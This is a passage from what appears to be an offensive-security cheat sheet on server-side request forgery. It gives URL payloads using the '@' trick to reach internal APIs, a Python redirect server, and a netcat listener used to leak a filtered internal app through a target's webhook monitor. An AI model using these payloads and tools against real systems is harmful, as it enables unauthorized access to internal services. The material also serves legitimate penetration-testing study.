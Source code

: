 We might be able to get information from an API endpoint that is not accessible normally.

```bash
?url=https://api.example.com/users
?url=https://api.example.com@internal-api.example.com/users
```

<br />

## Reveal Filtered Websites via Monitoring Tools (Webhook)

Some web apps may have monitoring tools that check the health of external websites.  
You may be able to reveal hidden contents of the target via the monitor.  
First off, create a redirect server using Python. Here it’s named “redirect.py”.

```py
#!/usr/bin/python3
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

class Redirect(BaseHTTPRequestHandler):
  def do_GET(self):
      self.send_response(302)
      self.send_header('Location', sys.argv[1])
      self.end_headers()

HTTPServer(("0.0.0.0", 8000), Redirect).serve_forever()
```

After creating, run the following command.  
Assume that the filtered port is 3000 (nmap will reveal it).

```sh
python3 redirect.py http://127.0.0.1:3000
```

And start listener for receiving the POST request of the webhook from the target website.

```sh
nc -lvnp 4444
```

Now set the configuration of the webhook. For example:

```txt
Payload URL: http://<local-ip>:4444/
Monitored URL: http://<local-ip>:8000/
```

You can see the contents of the filtered app.

<br />

## Request Splitting

Reference: [https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/](https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/)
